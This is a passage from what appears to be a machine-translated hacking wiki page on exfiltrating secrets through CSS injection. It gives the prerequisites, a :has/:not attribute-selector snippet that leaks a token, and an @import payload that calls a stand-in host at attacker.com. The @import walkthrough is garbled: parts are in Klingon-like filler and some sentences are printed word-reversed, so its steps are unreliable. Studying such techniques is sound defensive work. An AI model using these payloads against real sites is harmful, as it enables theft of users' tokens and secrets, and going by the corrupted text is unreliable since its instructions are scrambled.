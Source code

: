 For the CSS Injection technique to be effective, certain conditions must be met:

1. **Payload Length**: The CSS injection vector must support sufficiently long payloads to accommodate the crafted selectors.
2. **CSS Re-evaluation**: You should have the ability to frame the page, which is necessary to trigger the re-evaluation of CSS with newly generated payloads.
3. **External Resources**: The technique assumes the ability to use externally hosted images. This might be restricted by the site's Content Security Policy (CSP).

### Blind Attribute Selector

As [**explained in this post**](https://portswigger.net/research/blind-css-exfiltration), it's possible to combine the selectors **`:has`** and **`:not`** to identify content even from blind elements. This is very useful when you have no idea what is inside the web page loading the CSS injection.\
It's also possible to use those selectors to extract information from several block of the same type like in:
```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
background:url(/m);
}
</style>
<input name=mytoken value=1337>
<input name=myname value=gareth>
```
### @import

**@import** technique-vaD vItlhutlhlaHbe', **blind-css-exfiltration** (https://github.com/hackvertor/blind-css-exfiltration) **laH CSS injection vItlhutlhlaHbe' blind pejpu'wI' pagh **info** vItlhutlhlaHbe' **lot** exfiltrate possible.

**@import**

prerequisites check. **victim** links multiple **send** able be to need either, **page vulnerable injection CSS the iframe** able be to need either.

However, **quality** the improve to **@import** CSS **clever technique** another is there.

[**Pepe Vila**](https://vwzq.net/slides/2019-s3\_css\_injection\_attacks.pdf) **first showed** this and **works** it like this:

**once just page the load to going are we** (this is the payload to send to the victim) **server attackers the to import an with just and once page the load to going are we** (this is the payload to send to the victim):
```css
@import url('//attacker.com:5001/start?');
```
1. **Qa'vIn CSS script** vItlhutlh **attackers** **browser vItlhutlh**.
2. **attackers server** **'ej 'oH `@import`** **attackers server** **'ej.**
1. **attackers server** **respond** **request** **leak** **chars** **respond** **import** **leak** **next**.
3. **payload** **'ej **attribute selector leakage payload** **part** **bigger** **'ej**.
1. **attackers server** **secret** **first char** **'ej** **last one** **send**.
4. **attackers server** **first 'ej last char** **secret** **received**, **respond** **import** **step 2**.
1. **response** **steps 2, 3 'ej 4**, **'ach** **second char** **secret** **penultimate** **find** **try** **time**.
